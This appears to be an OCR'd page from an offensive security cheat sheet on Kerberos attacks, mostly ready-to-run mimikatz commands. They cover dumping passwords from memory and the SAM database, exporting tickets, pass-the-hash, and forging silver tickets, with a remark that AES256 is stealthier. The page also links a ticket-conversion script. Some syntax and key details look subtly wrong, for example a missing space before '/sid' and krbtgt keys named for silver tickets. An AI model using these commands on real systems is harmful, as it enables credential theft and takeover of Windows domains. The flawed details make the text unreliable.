 ## convert tickets between linux / windows format
[ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

- `python ticket_converter.py ticket.kirbi ticket.ccache`
- `python ticket_converter.py ticket.ccache ticket.kirbi`

### to use ticket 
> search for gettgt.py 

---

# mimikatz
- service: kerberos
- tactics: credential_access

## enable log
- `log filename.log`

## enable debug mode
- `privilege::debug`

## dump passwords from memory
- `sekurlsa::logonpasswords`

## dump passwords from sam database
- `lsadump::sam /system:f:\SYSTEM /sam:f:\SAM`

## export tickets
- `sekurlsa::tickets /export`

## pass the hash
- `sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash`

## silver_ticket
### to generate the TGS with NTLM
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### to generate the TGS with AES 128 key
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### to generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`
